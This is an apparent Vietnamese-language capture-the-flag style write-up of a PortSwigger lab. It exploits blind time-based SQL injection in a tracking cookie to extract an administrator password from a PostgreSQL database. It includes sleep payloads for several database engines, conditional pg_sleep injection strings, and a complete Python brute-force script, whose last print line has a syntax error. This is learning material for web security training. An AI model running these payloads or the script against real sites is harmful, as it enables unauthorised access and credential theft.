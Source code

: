 ![image](https://github.com/user-attachments/assets/192f7bac-eac7-4c1e-8f77-81188053a8b3)![image](https://github.com/user-attachments/assets/8ada8e2a-1f15-4ea8-bc10-a9b62db91e33)

```
Oracle: dbms_pipe.receive_message(('a'),10)
Microsoft: WAITFOR DELAY '0:0:10'
PostgreSQL: SELECT pg_sleep(10)
MySQL: SELECT sleep(10)
```

Tiếp tục test nhé, test xem dbms của nó là gì?

**Cách 1:**

![image](https://github.com/user-attachments/assets/1b2f3730-5ffd-4b8f-b1a1-b08b5e568d59)

**Cách 2:**

![image](https://github.com/user-attachments/assets/f3c91669-cb17-499b-9157-0d4aac62a7c2)

![image](https://github.com/user-attachments/assets/a910870d-03d0-46d4-9e52-e0fdb53d9eed)

```
'%3BSELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
'%3BSELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```

Vậy là dbms là PostgreSQL và nó đã bị time based
 
![image](https://github.com/user-attachments/assets/065c8d19-1012-4de2-9064-b554541705e0)

Vì đề đã cho biết username là administrator rồi nên ta test thôi, thì time based nó đã hoạt động.

```
'%3BSELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```

![image](https://github.com/user-attachments/assets/c00b0afb-9c77-4836-b450-3c96b633cfb5)

```
'%3BSELECT CASE WHEN (username='administrator' AND LENGTH(password)>19) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```

Đó sau khi ta chạy lệnh đó thì ta xác định được độ dài passwd là 20.

Thì đến bước này cũng như các challenge trước thôi. Cũng sẽ bruteforce passwd, nhưng khác cái là lần này dựa trên time-based.

**Cách 1:**

![image](https://github.com/user-attachments/assets/e8274ad0-6fd1-4746-b624-a0c76879c2f2)

```
'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='2')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

Ta có thể thấy được rằng kí tự đầu tiên của passwd sẽ là số 2.

Đó, cứ tiếp tục bruteforce bằng intruder như này thì sẽ ra thôi

Tiếp theo là đến **cách 2**, 

![image](https://github.com/user-attachments/assets/ab63fc53-e837-4f91-b2c4-eaa4f320451d)

Đây là script:

```
import requests
import string
import time

# Cấu hình request
URL = "https://0ac400e504906846808f3dd500ca0043.web-security-academy.net/filter?category=Lifestyle"
COOKIES = {
    "session": "LORcKFb3Coo5FIWQKG47LRWaTpcEPBRb"
}
HEADERS = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36",
    "Referer": "https://0ac400e504906846808f3dd500ca0043.web-security-academy.net/",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "en-US,en;q=0.9",
    "Sec-Ch-Ua": '"Chromium";v="125", "Not.A/Brand";v="24"',
    "Sec-Ch-Ua-Mobile": "?0",
    "Sec-Ch-Ua-Platform": '"Windows"',
    "Upgrade-Insecure-Requests": "1",
    "Sec-Fetch-Site": "same-origin",
    "Sec-Fetch-Mode": "navigate",
    "Sec-Fetch-User": "?1",
    "Sec-Fetch-Dest": "document"
}

# Bộ ký tự cần thử: a-z, A-Z, 0-9
CHARSET = string.ascii_letters + string.digits
SLEEP_TIME = 5  # Số giây sleep nếu đúng ký tự
TIMEOUT_THRESHOLD = 4  # Nếu request lâu hơn 4s, có thể là ký tự đúng

def is_correct_guess(start_time):
    """ Kiểm tra nếu response time lớn hơn TIMEOUT_THRESHOLD. """
    return (time.time() - start_time) > TIMEOUT_THRESHOLD

def brute_force_password():
    password = ""
    
    for i in range(1, 50):  # Giả sử password có tối đa 50 ký tự
        found = False
        for char in CHARSET:
            # Inject SQL để kiểm tra ký tự thứ i của password
            payload = f"9FlQf69oKAk7n37p'%3BSELECT CASE WHEN (username='administrator' AND SUBSTRING(password,{i},1)='{char}') THEN pg_sleep({SLEEP_TIME}) ELSE pg_sleep(0) END FROM users--"
            cookies = COOKIES.copy()
            cookies["TrackingId"] = payload
            
            print(f"[*] Đang thử ký tự thứ {i}: {char}")  # Debug
            start_time = time.time()
            response = requests.get(URL, cookies=cookies, headers=HEADERS, timeout=10)
            
            if is_correct_guess(start_time):
                password += char
                print(f"[+] Ký tự đúng: {char} --> {password}")
                found = True
                break
        
        if not found:
            print(f"[*] Kết thúc, password có thể là: {password}")
            return password
    
    return password

# Chạy script
final_password = brute_force_password()
print(Password cuối cùng: {final_password}")
```

![image](https://github.com/user-attachments/assets/79ed77a3-2d48-4e68-8ba2-88313223b90c)

![image](https://github.com/user-attachments/assets/d6bec758-0fbf-4723-9ab3-fab87b7ddc42)

Vậy là đã thành công rồi đấy
